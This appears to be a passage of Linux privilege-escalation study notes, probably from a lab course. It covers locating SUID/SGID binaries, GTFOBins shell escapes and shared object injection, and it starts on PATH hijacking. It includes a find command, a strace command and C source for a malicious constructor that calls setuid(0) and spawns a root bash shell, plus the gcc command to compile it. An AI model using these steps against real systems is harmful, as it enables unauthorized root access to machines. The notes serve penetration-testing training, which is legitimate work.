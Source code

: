 #### Find SUID and SGID
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

### Shell escape sequences
Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: https://gtfobins.github.io/ Refer to the previous section on shell escape sequences for how to use them.

### Shared object injection 
When a program is executed, it will try to load the shared objects it requires. By using a program called strace, we can track these system calls and determine whether any shared objects were not found. If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

#### run strace on the SUID File:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
The <NAME> shared object could not be found, and the program is looking in <DIRECTORY>, which we can write to.
  
#### Creat the directory + file with the contents
```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```

#### Compile FILE in the directory
```
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

#### Run SUID Executable

### PATH environment variable
The PATH environment variable contains a list of directories where the shell should try to find programs. If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found. Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run strings on the executable file to find strings of characters. We can also use strace to see how the program is executing. Another program called ltrace may also be of use.
